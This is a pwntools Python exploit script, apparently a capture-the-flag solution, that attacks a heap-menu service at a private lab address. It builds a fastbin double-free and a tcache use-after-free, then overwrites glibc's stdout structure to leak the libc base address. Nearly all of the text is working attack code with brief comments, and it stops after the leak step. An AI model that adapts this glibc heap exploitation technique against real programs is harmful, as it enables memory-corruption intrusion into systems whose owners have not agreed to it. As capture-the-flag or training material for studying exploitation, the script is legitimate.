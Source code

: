```python
from pwn import *

r = remote('172.19.0.2', 6818)

def buy(size):
    r.sendlineafter(b'> ', b'1')
    r.sendlineafter(b'How much? ', str(size).encode())

def edit(idx, name):
    r.sendlineafter(b'> ', b'2')
    r.sendlineafter(b'Index: ', str(idx).encode())
    r.sendafter(b'Name: ', name)

def refund(idx):
    r.sendlineafter(b'> ', b'3')
    r.sendlineafter(b'Index: ', str(idx).encode())

#make libc address in chunk
for i in range(7):
    buy(0x38)

buy(0x38)   # <- these two is for double-free
buy(0x38)

buy(0x420 - 0x8)
buy(0x18)  # <- to prevent merging with the top chunk
refund(9)
buy(0x38)  # <- have main_arena addr / idx=9

#empty out unsortedbins
buy(0x3e0 - 0x8)    # <- idx=11

#make double-free in fastbins
for i in range(7):
    refund(i)
refund(8)
refund(7)
refund(8)

#If we buy one, then other chunk in fastbins will go to tcache.
#After that, uaf is occured.
for i in range(7):
    buy(0x38)
buy(0x38)   # <- idx=7 / addr = 0x540
#There is uaf, but for increase number of chunk in tcachebins,
#buy two more and free other idx first.
buy(0x38)   # <- idx=8 / addr = 0x500
buy(0x38)   # <- idx=12 / addr = 0x540
refund(0)
refund(1)
refund(2)
refund(8)
refund(12)
edit(7, b'\x80')
buy(0x38)   # <- idx=0 / addr = 0x540

#leak libc_base by overwrite stdout structure. Probability is about 1/16
edit(9, b'\xa0\xe6')
pause()     # <- when debugging, set to directly stdout struct
buy(0x38) # <- idx=1 / addr = 0x580
buy(0x38) # <- idx= 2
edit(2, p64(0xfbad1800) + p64(0) * 3 + b'\x08')     # <- print _IO_2_1_stdin_
libc_base = u64(r.recvn(6) + b'\x00' * 2) - 0x1ec980
```
